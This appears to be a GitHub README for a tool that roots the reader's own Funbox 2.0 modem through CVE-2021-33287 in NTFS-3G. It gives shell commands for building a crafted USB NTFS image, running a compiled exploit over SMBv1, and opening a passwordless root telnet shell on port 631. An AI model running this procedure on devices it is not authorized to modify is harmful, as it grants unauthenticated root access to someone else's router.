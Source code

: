 ## funbox2-root

Root your funbox 2.0 modem by using CVE-2021-33287 in NTFS-3G.

To root it you need to have a usb stick on which you'll write a specially prepared ntfs image, and you need to be connected to the router's LAN.

This CAN'T be used to attack someone else's modem, as you not only need to be on the LAN but also have physical access, and if you have malicious intent and physical access you can just replace the whole device with a tampered one anyways.

Funbox 2.0 isn't as easy to root as some other devices on the market, as it's impossible to interrupt u-boot during boot and there's no trivial vulnerability in the config panel.

```diff
- WARNING: running this will expose a passwordless telnet on your LAN
- It's recommended to only run this with Wi-Fi either disabled or with
- a strong password and only with trusted devices on the network.
- While the exploit itself shouldn't cause any harm to the device I'm also
- not responsible for bricking your modem.
```

### Technical writeup

You can find a technical writeup in [WRITEUP.md](https://github.com/mati7337/funbox2-root/blob/master/WRITEUP.md).

### How to use it

These instructions apply to linux, but they also might work on Windows Subsystem for Linux.

#### Preparations

Before you begin you have to enable SMBv1 support, because that's the only version supported by funbox 2.0

```shell
echo "client min protocol = NT1" | sudo tee -a /etc/samba/smb.conf
```

Then you have to create the image that will later be written to the usb stick.

```shell
./create_image.sh usb.img
```

This image will contain a file that exploits the vulnerability, but has a wrong offset set. We'll calculate and set the correct offset using `ntfs_edit_offset.py` in later steps.

You now have to write the image to a usb stick. Create a partition with your favourite partitioning software which is at least 2MiB. Then write the image to the newly created partition

```shell
dd if=usb.img of=/dev/YOUR_USB_STICK
eject /dev/YOUR_USB_STICK
```

Compile exploit.c using any c compiler. It only uses clib and linux calls, so it doesn't require any additional libraries. Running it writes the exploit into ntfs-3g stack's memory which executes when unmounting.

```shell
gcc exploit.c -o exploit
```

#### Exploitation

Plug in the usb stick into the modem. There's 1 port in the front and 1 in the back, any port should work.

`Fun fact: these ports aren't USB 3.0, they're actually USB 2.0, but the connector is colored blue`

The modem should automatically mount it and share it through samba. The name should be set to `ntfs_usb`, but you can also check it using the `list.sh` script.

```shell
./list.sh IP
```

Mount the smb share using the `./remount.sh` script.

```shell
sudo ./remount.sh IP ntfs_usb
```

Then try running the exploit

```shell
./exploit
```

The first time you run it you should get a `Incorrect alignment:` error message. Copy the hex string after that, and run

```shell
python3 ntfs_edit_offset.py usb.img --ntfs-3g ./bin/ntfs-3g --ident HEX_STRING
```

This will set the correct offset in the ntfs-3g image. Now write the edited image to the usb stick and plug it again into the modem. Running it again should finish successfully. If you still get an error try unplugging and plugging back in the usb stick, as sometimes it can result in different heap addresses. If that still doesn't work, try creating the image again.

If you see a success message you can unplug the usb stick. This will activate the exploit stored in memory which will kill the cupsd process and run telnetd on it's port (other ports are blocked by the firewall). You can then connect to it

```shell
telnet 192.168.1.1 631
```
